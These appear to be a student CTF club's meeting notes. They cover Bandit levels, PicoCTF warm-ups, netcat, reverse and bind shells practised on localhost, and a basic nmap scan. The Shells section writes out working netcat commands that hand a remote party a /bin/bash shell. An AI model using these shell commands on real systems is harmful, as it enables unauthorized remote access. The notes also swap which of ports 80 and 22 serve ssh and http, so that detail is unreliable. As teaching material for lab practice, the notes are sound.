 ## CTF Meeting 2-2-22 Overview

- Started out with Bandit level 7

- Utilized commands such as `grep` and `cat` when accessing data.txt file

- `grep millionth data.txt -A 5 -B 5`

- located 'millionth' string within data.txt, to find the password

- On bandit level 8, we used `head data.txt` to get the heading part of the catted text contained in *data.txt*.

- https://i.imgur.com/6vGceyD.png

- we used `sort` command to find unique instances of strings within data.txt using `uniq -u` to only print unique lines.

## Bandit 9

- `Strings` command is used to discern what files are readable within a certain file.
- For example: `strings data.txt | grep "====="`
will read all readable strings within *data.txt* and pipe them to a line after ====.

## PicoCTF Practices


- We did 'Let's Warm up' last week.

- Waseem was explaining hexadecimal format; hexadecimal is basically a step up from binary in terms of human-readability.

- How do we translate 0x70 (hexadecimal) to ASCII?
  - Easiest way is to go to a tool **Cyberchef** and input 0x70 to have it converted to ASCII.

- Cyberchef will output 0x70 as 'p' in ASCII.

- 'Nice Netcat' is another good introduction to PicoCTF.
   - running the specified command gives us output that is obviously not in english. What should we do?
   - Run Cyberchef. we can see that this will output the CTF flag after cyberchef converts the ASCII gibberish.

- WE very importantly learned that you say you 'PWNED' someone whenever you deface their webpage/architecture. Word.

- Waseem bragged about his ability to automate a challenge.

## Netcat 

- **Netcat** will be used so many times. 

- 'Listen Mode' in netcat is imperative to know about.
   - nc-l    (listen)
   - nc -v     (verbose)
   - nc -n         (no domain name (suggests to use an IP))
   - nc -p         (port)

- Let's combine all this parameters: `nc -nvlp`

- Woah, if we combine all those flags in netcat we get a command that will listen to connections only from IPs, and will require a port, and will output details in verbose mode.

## Shells

### Reverse Shells

- The idea of a reverse shell is to use a victim's host machine to allow incoming connections.
- You setup a listener on your machine:
   - nc -e /bin/bash your_ip your_port   (this was run on one of the terminal instances on RedHat machines in the computer lab)
   - nc -nvlp your_port     (this is the listener, we set this up on another terminal instance on the RedHat machines.)
Hint: you can use `ip a` to locate your IP address

How this looked in class:

Listener: `nc -nvlp 4444`

Connection: `nc 127.0.0.1 4444 -e /bin/bash`

After doing this, the listener can use `whoami` to find details about the connection-hosting machine.

### Bind Shells

- These shells exist forever until someone connects. Anyone can connect, as opposed to reverse shells.
- Bind shells work by creating a listener, like before.
   - nc -nvlp 4444 -e /bin/bash

- After doing this, one of the machine (the host) will be listening: `Listening on [any] 444 ...`
- Then we need to setup a connection instance with a host machine(we had used our ubuntu machine to connect to the host):
  - nc -v 127.0.0.1 4444

After this, on the ubuntu machine we're using to connect, we should see `localhost [127.0.0.1] 4444 (?) open` 

## Intro to NMap

- **Nmap** is basically a tool that lets you scan ports on a machine, or many machines.
- Allows us to see what doors a machine has open. 
- As a blueteamer or pentester, you need to know what services are running on a machine, be it Linux or Windows.

- Nmap is commonly used by security analysts and hackers alike.

- We did some practice with NMap: 
   - First we needed to update our Ubuntu machines, and install Nmap:
   
   `sudo apt full-upgrade`     (apt is the package manager that Debian uses)
   `sudo apt update && sudo apt dist-upgrade -y`
   - After issuing these two commands in our terminal, our machine should be fully prepped for nmap sickness.
- Installing nmap:
   - `sudo apt install nmap -y`

- Using Nmap:
- `nmap -h` will bring up the 'help' list of commands for nmap.

- But before this, we had a scuffed demonstration of how TCP works. 
- **SYN/ACK** means TCP says yes.
TCP basically asks if it can connect, given the existence of a certain port.

- UDP does not ask questions.

https://i.imgur.com/vlZAnw9.png

- Nmap usage:
   - `nmap -v 10.226.19.219 -p80,22` 
   Here we are specifically scanning the above ip address under ports 80 and 22, which correspond to **ssh** and **http** services.







